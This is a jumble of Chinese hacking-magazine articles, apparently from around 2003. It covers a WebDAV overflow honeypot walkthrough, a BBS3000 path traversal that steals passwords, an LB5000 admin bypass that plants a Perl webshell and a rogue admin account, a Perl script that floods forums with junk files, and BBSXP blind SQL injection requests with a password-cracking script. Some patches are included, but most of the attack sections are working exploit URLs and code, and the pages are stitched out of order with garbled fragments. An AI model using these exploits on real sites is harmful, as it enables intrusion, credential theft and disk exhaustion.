接着，按“F10”保存，退出，重启。把 Windows Server 安装光盘放进光驱，接下来的一系列操作都和我们平时装系统没什么差别，只要装过系统的人都能轻松搞定，我就不多说了。在装虚拟系统的过程中，我们还可以学到很多东西，其中的功能强大，你可以自己去摸索、体会。

好，现在我们已经把 Windows Server 装好，当然我们已经为系统装了“IIS”服务等一切默认配置。好了一台“Webdav 漏洞蜜罐”就简单地装好了！好吧，让我们进入“蜜罐”进行我们的安全入侵之旅。这次入侵可是绝对无风险的哦，不必考虑安全问题。这也是极力推荐的！充分发挥 Honeypot 的作用：学习和研究网络安全，看来我们要改写 Honeypot 的功能了，它不仅仅是拿来收集入侵证据的，它可以为我们学习之用。进入 Honeypot。

现在已经进入了蜜罐，设置好 IP，启动 IIS 服务，拿出我们的 Webdav 漏洞扫描器，如图 4 所示，图中 192.168.1.222 就是蜜罐 IP 的 Webdav 漏洞是存在的，而 192.168.1.2 就是小生主机的 IP 啦，已经把漏洞补上了。


图 4

进入 cmd，运行 webdavx.exe 程序，对主机 192.168.1.222 进行溢出，用命令：“webdavx 192.168.1.222”即可。

溢出成功，程序提示 telnet 192.168.1.222 7788，那我们就 Telnet 进去吧。

好了，我们已经成功地进入了 Webdav 漏洞主机，接下来的操作是仁者见仁，完全体现你自己的入侵思路，我这的建议是先把它的 Telnet 服务打开，避免意外断开了这次连接，根据我的经验，除了主机重新启动，然后重来一趟之外，Telnet 7788 端口成功的机会是很小的。那我们就先启动主机的 Telnet 服务吧！命令如下：net start Telnet

接下来，我们就给主机建立个隐藏的超级用户吧，先建立个超级用户 Webdav，这为我们后面建立隐藏的超级用户所铺。我们可以用肉鸡上被禁止的用户来建立隐藏的超级用户，具体步骤如下：

- 1. 想办法查看有哪些用户被细心的管理员禁止，一般情况下，有些管理员出于安全考虑，通常会将 guest 禁用，当然会禁用其他用户。在图形界面下，非常容易，只要在帐户管理器中就可以看到被禁用的帐户上有一个红叉；命令行下，我们可以在命令行下用命令：“net user 用户名”一个个来看用户是否被禁用。虽然这麻烦了点，但却也是有效的。
  2. 我们假设用户 guest 被管理员禁用。我

目前网络上的论坛版本很多，比如著名的雷傲论坛、动网论坛等，一些网站爱好者们对于论坛的安全性也非常的感兴趣，在经过测试验证以后，经常会发现这些论坛也存在着这样或那样的问题，本文是作者针对 YUZI 论坛的一次安全性分析，让读者们对这个论坛的安全情况有个了解。

# YUZI BBS3000 论坛安全性分析


文 / shocker

BBS3000 论坛是国内使用比较广泛的论坛，但是安全性却非常的低。在此我就来分析一下 BBS3000 论坛的安全性问题。

大家都看过 BADBOY 的那篇分析 BBS3000 安全性的文章，但是那只是由于 Windows 下对 CGI 文件错误解释造成的，把所有 CGI 都附有了可执行权限，改用 ISAPI 方式就不会产生问题。当然了，虽然 BBS3000 修正了当时 BADBOY 说的问题，但是还存在着不少这种问题，即可以创建含有 SYSTEM @ARGV 的这种 CGI 文件。在此我就不一一列举了。这回我说的方法针对所有平台下安装的 BBS3000 最新版（WWW.YUZI.NET 上最后公布的版本）。老版本我并没有进行测试，谁有兴趣可以自行测试。

言归正传，首先我们来看一下 BBS3000 的代码。

先看 postlog.cgi 这个文件里面，对 `$FORM{username}` 变量并没有进行任何过滤，而后面却这样写：

```
perl
open (PEO, "$filepath/postlog/$FORM{username}.cgi");
@lines=<PEO>;
close (PEO);
foreach $line (@lines) {
    chomp($line);
    ($slttitle,$id,$bbsname)=split(/\t/,$line);
```

```
perl
if (-f "$filepath/.list/$id/$slttitle") {
    open(TITLES,"$filepath/.list/$id/$slttitle");
    $m=<TITLES>;
    close(TITLES);
    ($rtitles,$rthistime,$rusername,$nr,$rfrom,$rhasreply,$emote,$lastname,$lasttime,$re,$rhassee,$jing,$lock)=split(/\t/,$m);
```

可以看出，`$slttitle`、`$id`、`$bbsname` 这 3 个变量是从 postlog 目录下的 `$FORM{username}.cgi` 文件读出然后再读取 `$filepath/.list/$id/$slttitle` 文件，从中读出 `$rtitles`、`$rthistime`、`$rusername`、`$nr`、`$rfrom`、`$rhasreply`、`$emote`、`$lastname`、`$lasttime`、`$re`、`$rhassee`、`$jing`、`$lock` 这些变量的值。

最后把以上的变量显示出来一些。但是从后面的 html 输出可以看出，`$rtitles` 这个变量肯定要显示在生成的 html 页面上，由此我们可以看出，只要能把 `$filepath/.list/$id/$slttitle` 这个的路径让 cgi 程序认为是 `../list/$id/../../yhzl/用户名.cgi` 就可以，这样该用户名的用户密码就能被读到 `$rtitles` 这个变量中了（因为用户资料的存储格式是密码放在第一位），并且能显示出来：）。但是，由于 `$slttitle` 这个变量是从 `$filepath/postlog/$FORM{username}.cgi` 文件中读取出来的，所以我们只有伪造一个文件，让它当中存有：

## 第4章 漏洞分析与利用

### 4.1 伪造文件攻击

```
./list/$id/../../yhzl/用户名.cgi 任意一个帖子的id
bbs的名字
```

这么一段，这样就可以了。

我们只要伪造第一个字段的资料，后两个都用真实的就可以达到攻击目的，下面要做的就是找到伪造这个文件的方法。

经过一番查找，发现在 favorite.cgi 文件中含有这么一个子函数：

```perl
sub add{
if($id eq ""){&errorview(" 不能把公告栏中的帖子加入收藏! ");}
if($slttitle eq ""){&errorview(" 系统不存在此帖子的数据! ");}
unless(-e "$filepath/list/$id"){&errorview(" 系统不存在此ID的论坛! ");}
unless(-e "$filepath/list/$id/$slttitle"){&errorview(" 此帖子已经被删除了! ");}
open (TMP,"$filepath/list/$id.cgi");
$line=<TMP>;
close(TMP);
($bzmc,$secret,$bzrmail,$outurl,$bbsname,$bzmc2,$rtime,$htmt,$htmlw,$jj,$fyzmc)=split(/\t/,$line);
open(TITLES, "$filepath/favorites/2$Cookies{username}.cgi");
@hastitles=<TITLES>;
close(TITLES);
$TEMP="$slttitle\t$id\t$bbsname";
foreach $hastitles(@hastitles) {
chomp($hastitles);
if($TEMP eq $hastitles){&okview(" 该贴已经被你加入收藏了! ");}
}

$favinum=@hastitles;
if($favinum >= $favmax){&okview(" 您的贴子收藏不能超过 $favmax 个! ");}
open(PSD, ">$filepath/favorites/2$Cookies{username}.cgi");
print PSD "$slttitle\t$id\t$bbsname\n";
foreach( @hastitles){
```

```perl
$_=~s/\n//isg;
print PSD "$_\n";
}

close(PSD);
&okview(" 您已经成功地将该帖子添加到帖子收藏中! ");
exit;
}
```

从这个模块中可以看出，首先程序判断 $id 和 $slttitle 变量是否存在，然后再判断文件是否存在。

最后，把 $slttitle\t$id\t$bbsname\n 这行写入 favorites 目录下的 “2 你的用户名.cgi” 这个文件里面，这样我们就可以提交如下请求：

```
http://localhost/cgi-bin/bbs3000/favorite.cgi?menu=add&id= 任意一个帖子的id号&slttitle=../../yhzl/你想知道密码的用户的用户名.cgi
```

这样的话，就可以在 favorites 目录下生成名为 “2 你的用户名.cgi” 的文件，内容如下：

```
../../yhzl/你想知道密码的用户的用户名.cgi 任意一个帖子的id号 bbs的名字
```

这样我们就成功地伪造了上面提到的 .cgi 文件。

接下来就省事了，我们只要提交：

```
http://localhost/cgi-bin/bbs3000/postlog.cgi?username=../favorites/2 你的用户名&menu=log_frame
```

这个连接就可以看到你想要知道的那个用户的密码了。

我觉得已经说得很详细了：）如果你看不懂的话，自己先好好学学 perl 语言吧！

## 声明：

利用本文所讲的方法造成的一切后果自负，转载请保持文章完整性。

如果需要了解更多的 cgi 安全方面的信息，请访问 http://analysis.tocare.net/index.php

# LB5K 论坛多个管理文件存在管理员验证可绕开漏洞

漏洞？什么是漏洞？最近看了一些漏洞方面的资料，稍稍领悟了其中的意义。其实对于开发软件来说，仅仅拥有熟练的编程技术还是不够的，您还需要对整个软件有一种安全上的逻辑，并将这种逻辑融入到软件之中。当然，程序和逻辑中也总会存在缺陷，特别是对于比较复杂的系统来说，而寻找漏洞便是要寻找这种缺陷了！

## 一、漏洞涉及版本

LB5000XP 所有版本，低于 LB5000MX1.90（1.90 已修复）所有版本均受此漏洞影响。

## 二、漏洞描述

- 1. 简单描述

LB 是一款由 www.leoboard.com 开发和维护、源代码开放的 cgi 论坛；由于多个管理文件存在管理员验证可绕开漏洞，可能导致非法用户控制论坛或以 Web 权限在系统上执行任意命令。

- 2. 具体分析

由于大量的管理文件存在相同的问题，限于篇幅，在这里我们选取其中一个文件 setskin.cgi 来说明问题。

熟悉 LB 论坛的朋友应该知道，管理菜单中有个“管理区插件设定”的特殊功能，下面我们来看看 LB 是如何对管理员进行验证的：

```
62  $inmembername = cookie("adminname");
63  $inpassword   = cookie("adminpass");
…
68  &getmember("$inmembername");
69  …
```

```
70  if (($membercode eq "ad") && ($inpassword eq $password) && (lc($inmembername) eq lc($membername))) {
…
```

其中，getmember() 是用来提取用户个人资料信息的函数。如果 $inmembername 用户存在，它将返回此用户的密码、等级等信息；但要是这个用户不存在呢？呵呵，这下可就坏了，我们还是先来看看 getmember() 函数的相关部分：

```
sub getmember {
my $nametocheck = shift;
…
my $filetoopen = "$lbdir" . "$memdir/$nametocheck.cgi";

if ((-e $filetoopen) && ($nametocheck !~ /^客人/)) {
    # 如果用户存在就提取
    … # 省略大量提取用户信息的代码
}
else {
    $userregistered = "no";  # 如果不存在，仅仅返回 “no”。
}
}
```

显然，如果我们直接对 setskin.cgi 文件发出请求，那么这时 $inmembername 为空，也就是说 &getmember("$inmembername") 这个语句只会返回 $userregistered = "no"，但 setskin.cgi 文件中根本就没有涉及到对 $userregistered 这个参数的判断，你是否想到了什么呢？是的，问题就在于此：&getmember("$inmembername") 在 setskin.cgi 文件中“形同虚设”！我们现在回过头来分析第 70 行的验证代码：($inpassword eq $password) 和 (lc($inmembername) eq lc($membername)) 已经为真，因为它们都为空；只有 ($membercode eq "ad") 尚待解决，如果这是在 PHP 程序中你肯定会脱口而出：我们直接指定 “membercode=ad” 啊！但要命的是，在这里，你同样可以这样做，因为可爱的 LB 在 setskin.cgi 的开头有这么几行：

```perl
@params = $query->param;
foreach (@params) {
    $theparam = $query->param($_);
    $theparam =~ s/\@/\\\@/g;
    $theparam =~ s/\$/\\\$/g;
    $theparam = &unHTML("$theparam");
    ${$_} = $theparam;
}
```

现在，我们直接在 IE 浏览器地址栏输入如下 URL：

```
http://www.target.com/perl/lb5000mx/cgi-bin/setskin.cgi?membercode=ad
```

回车，Yeah，成功！！

……嗯，请小声点，这里并没有结束，相反，攻击还没有真正开始。

上面这个是次要的，我们做不了什么，但我们却成功地绕开了对管理员权限的验证，接下来的代码更有趣哦！

```perl
73  if ($action eq "process") {
74
75
76  $printme .= "\n\n";
77
78  $filetomake = "$lbdir" . "data/leoskin.cgi";
79
80  open(FILE, ">$filetomake");
81  flock(FILE, 2) if ($OS_USED eq "Unix");
```

```perl
82  print FILE "$printme";
83  close(FILE);
```

可以看出，这里的 $printme 也是我们手中可以控制的变量，通过该变量我们可以向 data/leoskin.cgi 覆盖式地写入代码。实在太好了！

## 三、攻击方法

哈哈，看完上面的分析，是否跃跃欲试、热血沸腾呢？既然如此，那还等什么？

从上面的分析中，可以看出我们可以绕过管理员权限验证直接往 /data/leoskin.cgi 中写入代码。可写点什么好呢？要知道每次都会覆盖上一次写的内容，它可没耐心让你一行一行分几次写入，而且，它还处理了一批有用字符：

```perl
52  $theparam =~ s/\@/\\\@/g;
53  $theparam =~ s/\$/\\\$/g;
54  $theparam = &unHTML("$theparam");

sub unHTML {
my $text = shift;
$text =~ s/<!--(.|\n)*-->//g;
$text =~ s/\&/\&amp;/g;
$text =~ s/<script>/\&lt;script\&gt;/ig;
$text =~ s/"/\&quot;/g;
$text =~ s/ /\&nbsp;/g;
$text =~ s/</\&lt;/g;
$text =~ s/>/\&gt;/g;
$text =~ s/[\a\f\e\0\r\t]/ /isg;
$text =~ s/document.cookie/documents\&\#46\;cookie/isg;
return $text;
}
```

My God，@&$"<> 这几个字符全军覆没，看来要动真格了。既然如此，我们只有一次性写入所有代码，提交下面 URL：

```
http://www.target.com/perl/lb5000mx/cgi-bin/setskin.cgi?membercode=ad&action=process&printme=use%20CGI%20qw(.standard)%3bopen(SKY,param('a'))%3bprint%20SKY%20param('b')%3b
```

想想看，这时文件 data/leoskin.cgi 变成什么样子呢？对，就是如下语句：

```perl
use CGI qw(:standard);open(SKY,param('a'));print SKY param('b');
$printme = "use CGI qw(:standard);open(SKY,param('a'));print SKY param('b');";
1;
```

以上实质起作用的是下面 3 个语句：

```perl
use CGI qw(:standard);
open(SKY,param('a'));
print SKY param('b');
```

注意：这里是整个攻击实质性的第一步哦，我们直接利用 setskin.cgi 受到了诸多限制，因此变换思路使用 leoskin.cgi 这个与论坛操作交流的桥梁；小弟试过几次，屡试不爽。

怎么样？这个 webshell 算得上短小精悍，并且功能也很酷吧？！可别小瞧它，它能做许多事哦，比如说提交如下 url 请求：

```
http://www.target.com/perl/lb5000mx/cgi-bin/data/leoskin.cgi?a=>>E:/PsYCh/PERL/LB5000MX/cgi-bin/data/hack.cgi&b=hahahaha
```

此时，对方系统中执行的代码即为：

```perl
open(SKY,">>E:/PsYCh/PERL/LB5000MX/cgi-bin/data/hack.cgi");
print SKY "hahahaha";   # 很多朋友说不成功就是因为忘记了">>"
```

这样，你就可以在 E:/PsYCh/PERL/LB5000MX/cgi-bin/data/ 目录下创建一个名为 hack.cgi 的新文件，且其内容为我们提交的 “hahahaha”；按照相同的方法，你可以把下面这个文件一行一行写到对方 Web 下一个新建文件（譬如 hacktest.cgi）中：

```perl
$lbpath="E:/PsYCh/PERL/LB5000MX/cgi-bin/";
##### 注意：此处请修改 #####
$ad="/hack.cgi";
```

```perl
opendir(DIR,"$lbpath");
@files=readdir(DIR);
close(DIR);
@memdir=grep/^members/,@files;
$hack=$lbpath.@memdir[0].$ad;
open(HACK,">$hack");
print HACK "hack\thack\thack\tad\n";
```

声明：我可没强迫你通过浏览器来提交，你也可以自己写个小程序实现。^^ 假如你把文件名定为 hacktest.cgi，并且该文件放在 cgi-bin/data 目录下，那么你只需要在 IE 地址栏提交如下请求：

```
http://www.target.com/perl/lb5000mx/cgi-bin/data/hacktest.cgi
```

这样，一个用户名和密码都为 hack 的管理员就诞生了。当然，想上传个功能强劲、使用方便的 webshell 上去也行，不过那是你自己的工作了！

编者语：如果你觉得拿到论坛的最高管理员权限还不够，可以上传 webshell 后对整个网站文件操作，或借此得到一个 shell 并提升系统权限，但这并不是本文所讨论的范围。

## 四、解决办法

将 lb.lib.pl 文件中的 getmember()、getmembernolock() 两个函数的末尾添加 `$membercode="";`，即把 “else { $userregistered = "no"; }” 改为 “else { $userregistered = "no"; $membercode=""; }”

后记：笔者较早前就发现了这个漏洞，后来因有人得到了漏洞细节并攻击了很多论坛后，LB 作者意识到了漏洞的存在并发出了紧急安全通告，且迅速将论坛版本升级到 1.90。应该强调：论坛漏洞的存在，危害的不仅仅是论坛本身，而是整个系统安全！另外，我想和大家说的是，虽然 LB 不断地有一些 bug 被揭发，但它不是变差了，而是日臻完善，LB 仍然是最值得推荐、信赖的优秀 BBS 之一。

## 4个有问题的 LB 文件

文 / PsKey

LB 论坛作为国内最优秀的论坛软件，其良好的结构让我们不得不佩服。但是百密总有一疏，本文具体分析了几个存在问题的 LB 文件，最后给出了相应的解决办法，希望大家参照本文打好补丁。

## 一、setregmsg.cgi 和 setregrules.cgi 存在无认证漏洞

- 1. 涉及版本

涉及 LB 论坛的所有版本（就写稿日期 03.4.15 而言）

- 2. 描述

setregmsg.cgi 和 setregrules.cgi 两个文件存在无认证漏洞，导致攻击者可以直接修改论坛“注册声明”和“短消息欢迎信息”。

- 3. 具体分析

在 LB 官方站点看到 LB 补丁程序，原来 setregmsg.cgi 和 setregrules.cgi 两个文件存在无认证漏洞，导致攻击者可以直接修改论坛“注册声明”和“短消息欢迎信息”，这个漏洞存在于所有版本，这可能给论坛带来一些尴尬。

试看如下代码（这是 setregmsg.cgi 中的部分程序段，setregrules.cgi 文件存在的问题和这一样，不再赘述）：

```perl
$rules        = $query->param('therules');
$action       = $query->param("action");
...
if ($action eq "process") {
    $rules =~ s/\n\n/\n/ig;
    $rules =~ s/\s+\n/\n/ig;
    $filetomake = "$lbdir" . "data/newusrmsg.dat";
    open(FILE, ">$filetomake");
    print FILE $rules;
    close(FILE);
}
```

这个文件的问题很明显，它没有任何验证，因此利用起来也十分简单。我们只需提交如下请求，就可以修改“注册声明”：

```
http://www.target.com/perl/lb5000mx/cgi-bin/setregrules.cgi?action=process&therules=要修改的内容
```

提交如下请求则可以修改“短消息欢迎信息”：

```
http://www.target.com/perl/lb5000mx/cgi-bin/setregmsg.cgi?action=process&therules=要修改的内容
```

编者语：可以看出，在编写 CGI 程序的时候，对需要验证的文件一定要严密把关，以避免出现诸如本文所描述的这种情况。

## 二、blocklist.cgi、friendlist.cgi 存在无验证和可写入垃圾文件漏洞

- 1. 涉及版本

LB 所有版本

- 2. 描述

blocklist.cgi、friendlist.cgi 是 LB 中注册用户用来添加删除好友和黑名单的文件，由于无验证，可能导致非法用户操作合法用户好友／黑名单列表，并可能向系统中写入大量垃圾文件。

- 3. 具体分析

我们先来看相关代码（这是 blocklist.cgi 文件的部分程序段，friendlist.cgi 和它的问题一样，这里不再重复介绍）：

```
46  my $adduser = $q->param('adduser');
47  my $inmembername = $q->param('membername');
…
59  if ($inmembername eq "客人") {
60      &loginbl;
61  } else {
62      &action;    # 如果提交用户不为空调用 action()
63  }
…
67  sub action {
68  if ($action eq "adduser") { &adduser($adduser);;
}   # 调用 adduser()
…
75  &getmember($adduser);    # 被提取添加用户信息资料
76  if ($emailaddress) {     # 如果存在则执行如下操作
…
84  $filetomake = "$lbdir" . "mcmblock/${memberfiletitle}.cgi";
…
95  if (open(FILE, ">$filetomake"))  # 把添加的用户写入
…
```

这和我们上面讨论的问题很相似，满足如下条件就可以实现写入：

- 1. 提交的 `membername` 不为空，可为任意值。
2. 提交的 `adduser` 是论坛中存在的用户。

既然如此，我们提交如下 URL 测试一下：

`http://www.target.com/perl/lb5000mx190/cgi-bin/blocklist.cgi?action=adduser&membername=aa&adduser=qq`

这样，我们给 aa 用户添加了一个黑名单 qq，我们也可以设置一个不存在的 membername，例如：

`http://www.target.com/perl/lb5000mx190/cgi-bin/blocklist.cgi?action=adduser&membername=anyname&adduser=qq`

这样便在 `/mcmblock` 目录下生成了一个 anyname.cgi 文件。

这样，我们可以写个小程序来写入多个垃圾文件，这样目标网站的硬盘资源很快便会被侵蚀。程序代码如下：

```
#!/usr/bin/perl
```

```
# Codz By PsKey<PsKey@hotmail.com>
# This script can Attack LB's blocklist.cgi & friendlist.cgi
$|=1;
use Socket;
use Getopt::Std;
getopt('hpwan');

print "==============================\n";
print "Codz By PsKey<PsKey@hotmail.com>2003/4/2\n";
print "==============================\n";

# 检查是否输入了完整参数
&usage unless ( defined($opt_h) && defined($opt_w) && defined($opt_a) && defined($opt_n));

$host=$opt_h;
$port=$opt_p||80;
$way=$opt_w;
$adduser=$opt_a;
$num=$opt_n;

@a=(1..$num);
print "Please wait...\n";
for ($i=0;$i<@a;$i++)
{
$b="iloveyou".$a[$i];
print ".";
# 所构造的能写入垃圾文件的请求
$request = "GET ".$way."?action=adduser&membername=$b&adduser=$adduser HTTP/1.1\r\n"
        ."Host: $host\n\n";
sendraw($request);    # 发送请求
}

# 用法函数
sub usage {
print qq~
Usage: $0 -h <Host> [-p <port>] -w <way> -a <adduser> -n <number>
    -h   =hostname you want to attack
    -p   =port, 80 default
    -w   =the path of the weak file
    -a   =one of LB forum's valid username
    -n   =how many files you want to create

Eg: $0 -h www.target.com -p 80 -w /cgi-bin/ ...
perl
blocklist.cgi -a root -n 1000
~
.
exit;
}

## 这个函数用来发送请求
# thanx rfp<rfp@wiretrip.net>'s sendraw
sub sendraw {
    my ($request) = @_;
    my $target;
    $target = inet_aton($host) || die("inet_aton problems");
    socket(S, PF_INET, SOCK_STREAM, getprotobyname('tcp')||0) || die("Socket problems\n");
    if(connect(S, pack "SnA4x8", 2, $port, $target)){
        select(S);
        $| = 1;
        print $request;
        my @in = <S>;
        select(STDOUT);
        close(S);
        return @in;
    }
    else {
        die("Can't connect...\n");
    }
}

```

- 2. 对于 blocklist.cgi 和 friendlist.cgi 文件

在 blocklist.cgi 文件中（friendlist.cgi 和下面一样，不另作说明）

```
perl
if ($inmembername eq "客人") {
    &loginbl;
} else {

```

后面添加如下语句：

```
perl
&getmember("$inmembername");
if ($userregistered eq "no") { &error("你没有注册!"); exit; }
elsif ($inpassword ne $password) { &error("你的密码错误."); exit; }

```

后记：最近我们连续公布了几个论坛漏洞，并且给出了相应的解决办法。应该说，论坛存在漏洞是不可避免的，事实也已经证明不存在任何没有 BUG 的软件，关键就在于我们能否及时地找到并打上相应补丁。以后我们还会继续不定期地公布一些漏洞，同时也会给出具体的解决办法，希望大家关注。

## 三、解决方法

- 1. 对于 setregmsg.cgi 和 setregrules.cgi 文件

在 setregmsg.cgi 文件中（setregrules.cgi 和下面一样，不另作说明）

```
perl
if ($action eq "process") {
语句后加上
&getmember("$inmembername");
if (($membercode eq "ad") && ($inpassword eq $password) && (lc($inmembername) eq lc($membername))) {

```

再在对应循环语句中加上：

```
perl
}
else {
    &adminlogin;
}

```

（上接第58页）

常被一些“高手”拿来练手的试验地。昨天一个学弟还对我说：我用流光 4.7 对着我们学校的内网扫了一下，竟然有 40% 的弱口令。晕！还能说什么呢？把内网当成外网又何尝不可，随时接受战场的考验。勤打补丁，加上强壮的密码，多了解些安全资讯，简单吧。

局域网基本上都采用以广播为技术基础的以太网（HUB 连接方式），任何两个节点之间的通信数据包不仅为这两个节点的网卡所接收，也同时为处在同一以太网上的任何一个节点的网卡所截取。因此，黑客只要接入以太网上的任一节点进行侦听，就可以捕获发生在这个以太网上的所有数据包，对其进行解包分析，从而窃取关键信息，这就是以太网所固有的安全隐患。事实上，Internet 上许多免费黑客工具都把以太网侦听作为其最基本的手段。因而合理地网络划分，交换式集线器（路由器）代替共享式集线器（HUB）同样很必要。

是软件就一定存在漏洞，BBSXP 作为一款比较优秀的论坛软件，它也不例外。本文就从分析 BBSXP 的几个文件着手，指出其中存在的不可忽视的漏洞。由于存在问题的文件比较多，本文只能就典型的几个文件作一下介绍，并在后面给出了漏洞利用程序代码。为了论坛的安全着想，我们后面也谈到了临时解决办法，希望使用该款论坛软件的朋友做好升级等安全防范措施。

# BBSXP 多个文件存在 SQL Injection 漏洞


文 / PsKey

> >>>Dedicated This Scrap To CaoJing<<<

## 一、漏洞涉及版本

本漏洞对 BBSXP 1.65 以下所有版本有效。

## 二、漏洞描述

- 1. 简单描述

BBSXP 是一款由 WWW.BBSXP.COM 开发和维护的源代码开放的 ASP 论坛。由于作者采用的安全防护措施过于简单，导致整个论坛多个文件存在 SQL Injection 漏洞，非法用户可以很快地智能破解任意用户口令或进行其他恶意攻击。但令人费解的是，在 BBSXP 的说明文档中却有这么句话：“BBSXP 经过将近 3 年的测试，可说是不存在任何 BUG，而且论坛程序 BUG 可说多多，你能放心使用吗？”

> 编者语：一直以来，软件测试的目的，是为了找出 BUG，而不是为了验证没有 BUG。这也就说明了软件不存在 BUG 是不可能的。各位黑防的读者朋友，您觉得呢？

- 2. 具体分析

BBSXP 在对用户输入和 Cookie 的审查上竟然只用了类似如下语句的简单处理：

```
if instr(username," ")>0 then:error("<li>非法操作"):
end if
if Request.Cookies("username")="" then
  error("<li>您还还未<a href=login.asp>登陆</a>社区")
```

难道作者认为仅仅限制空格就能把 SQL Injection 排除在外？让我们先看看下面这段代码：

```
login.asp
...
if instr(username," ")>0 then:error("<li>非法操作"):
end if    ' 居然只限制空格！
sql="select * from user where username='"&username&"'"
rs.Open sql,Conn
if rs.eof then
  message=message&"<li>此用户名还未<a href=register.asp?username="&username&"'>注册</a>"    ' 超级失败，竟然还使用如此低级设计
  error(""&message&"")
end if
if userpass<>rs("userpass") then
  message=message&"<li>您输入的密码错误"    ' 返回准确信息给攻击者判断，难道不是？！
...
```

看来这里不能用 username=root' and len(userpass)=6 and '1 进行攻击，但没有空格我们照样可以玩，提交如下请求：

```
http://www.target.com/asp/bbsxp/bbsxp/login.asp?menu=add&url=&username=root' and (len(userpass)=6)and' 1&userpass=asd&Submit1=+%B5%C7%C2%BD+
```

这样，实际执行的查询语句就变为了：

```
Select * from user where username='root' and(len(userpass)=6)and' 1'
```

如果满足“用户名为 root 且其对应密码长度为 6”的记录不存在，便会返回“此用户名还未注册”，看到此信息我们就可以知道 root 的密码长度不是 6 位。如下里面语句所示：

```
if rs.eof then
message=message&"<li>此用户名还未<a href=register.asp?username="&username&">注册</a>"
```

如果满足用户名为 root 且其对应密码长度为 6 的记录存在呢？

```
if rs.eof then
message=message&"<li>此用户名还未<a href=register.asp?username="&username&">注册</a>"
error(""&message&"")
end if
if userpass<>rs("userpass") then
message=message&"<li>您输入的密码错误!"
```

可以看出系统会返回“您输入的密码错误”，如果返回此信息，则说明 root 的密码长度是 6 位。

既然返回“您输入的密码错误”，则说明我们猜测的 root 用户的密码长度是对的，接着使用 left()、right() 便可以推算出密码了，但手工推测是很吃力的，我们可以根据提交一个请求后的返回值来判断我们设立的条件成功与否，这样我们便可以写个小的密码破解程序（本文结尾附了我写的一个测试程序）。

我们再看一个构造 Cookie 来达到 SQL Injection 的例子：

```
Usercp.asp:
---------------- 包含文件 setup.asp 中的关键代码：
sql="select * from user where username='" &Request.
```

```
Cookies("username")&"'"
if Request.Cookies("userpass")<>rs("userpass") then
Response.Cookies("username")=""
Response.Cookies("userpass")=""
' 如果密码不对
cookie 清空
end if
userface=""&us("userface")&""
' 取笔，保存于一个值，可作返回值判断
---------------- setup.asp 中的关键代码结束
<b>用户头像</TH></b></TR>
src="images/face/<%=userface%>.gif"></TD></TR>
' 用这个信息作为判断
```

如果我们提交如下请求：

```
$request="GET /asp/bbsxp/bbsxp/usercp.asp HTTP/1.0\r\n"
        . "Host: $host\r\n" . "Cookie: eremite=0; username=root' and(len(userpass)%3d6)and' '1' %3d'1;userpass=1\n\n";
```

实际执行的查询是：

```
select * from user where username='root' and(len(userpass)=6)and' 1'
```

不用我多说，大家也应该知道了：返回的 `<%=userface%>` 不为空的话，则证明 root 密码为 6 位，其余一切和上面例子一样！

想要更多的例子吗？（由于原理严重雷同，这里故不赘叙）？比如说：

```
register.asp:
http://www.target.com/asp/bbsxp/bbsxp/register.asp?menu=Check&username=root' and(len(userpass)=6)and' 1
```

可判断条件成功返回字符串：“已经有用户使用，请另外选择一个用户名。”

```
profile.asp:
http://www.target.com/asp/bbsxp/bbsxp/profile.asp?username=root' and(len(userpass)=6)and' 1
```

可判断条件成功返回字符串：“用户类型。”

```
shop.asp:
$request="GET /asp/bbsxp/bbsxp/shop.asp HTTP/
perl
\0\r\n"
"Host: $host\r\n"
"Cookie: eremite=0; username=root' and(len(userpass)%3d6)and '1' %3d '1;userpass=iamod'\n\n";
可判断条件成功返回字符串：“密码错误”

recycle.asp,
$request= "GET /asp/bbsxp/bbsxp/recycle.asp HTTP/1.0\r\n"
            "Host: $host\r\n"
            "Cookie: eremite=0; username=root' and(len(userpass)%3d6)and '1' %3d '1;userpass=iamod'\n\n";
可判断条件成功返回字符串：“本论坛共有”

```

```
perl
# 推算用户密码长度
@dic=(0..100);
for ($i=0;$i<@dic;$i++)
{
    $username=$user."' and(len(userpass)=' $dic[$i]' )and '1';
    $request = "GET $way?menu=Check&username=$username HTTP/1.0\r\n"
             . "Host: $host\r\n"
             . "Cookie: eremite=0;\n\n";   # 注意这行不能少
    print "$dic[$i] ";
    @in = sendraw($request);
    @num=grep / 已经有用户使用 /, @in;
    $size=@num;
    if ($size > 0) {   # 如返回包含“已经有用户使用”，表示成功
        print "\n\nSuccessful,The length of the password is $dic[$i] .\n\n";
        $lenpwd=$dic[$i];
        last;
    }
}

# 破解用户密码
for ($j=1;$j<=$lenpwd,$j++)
{
    @dic1=(0..9);
    @dic2=(a..z);
    @special=qw(" ' ! @ # $ %25 ^ %26 * \( \) - %2b = _ { } [ ] : " ; < > ? | , . / \\);
    @special2=qw(' ` ~ ! . # % …… —— * ( ) —— + = { } [ ] : ” “ ， 《》 ? | 、 ／ · （ ）);
    @dic=(@dic1,@dic2,@special,@special2);  # 包含常用字符的密码小字典
    # 一个接一个的推测，直到成功
    for ($i=0;$i<@dic,$i++)
    {
        $key=$ows.$dic[$i];
        $username=$user."' and(left(userpass,$j)=' $key' )and '1';
        $request = "GET $way?menu=Check&username=$username HTTP/1.0\r\n"
                 . "Host: $host\r\n"
                 . "Cookie: eremite=0;\n\n";
        print "$dic[$i] ";
        @in = sendraw($request);
        @num=grep / 已经有用户使用 /, @in;
        @num1=grep / 操作符丢失 /, @in;
    }
}

```

由于篇幅所限，就不一一列举了。此外，还有 RecoverPasswd.asp、prison.asp、play.asp、friend.asp、faction.asp、bank.asp... 大量文件存在相同问题，真是令人汗颜！

## 三、测试代码

下面是一个通过 register.asp 文件来破解用户口令的小程序（很快的哦）。当然，稍作修改便可用于其他存在相同缺陷的文件或场合：

```
perl
#!/usr/bin/perl
#Codz By PsKey<PsKey@hotmail.com>2003/3/29
#This Script can crack BBSXP user's password

$|=1;
use Socket;
use Getopt::Std;
getopt('hpwu');

print "====================================\n";
print "Codz By PsKey<PsKey@hotmail.com>2003/3/29\n";
print "====================================\n";

# 检查是否输入了必要参数
&usage unless (defined($opt_h) && defined($opt_w) && defined($opt_u));

$host=$opt_h;
$port=$opt_p||80;
$way=$opt_w;
$user=$opt_u;

print "\nPlease wait ...\n\n";

```

# 通过内网看校园网的安全性

文／朱平

一天下午，在图书馆的电子阅览室上文献检索课，很快就把老师布置的作业做好了。看了一下时间，还剩一个多小时。反正时间还多，看看电子阅览室的网络布置吧。我们学生机的操作系统是 Windows 98，先看看 IPconfig，弹出如图 1 窗口。

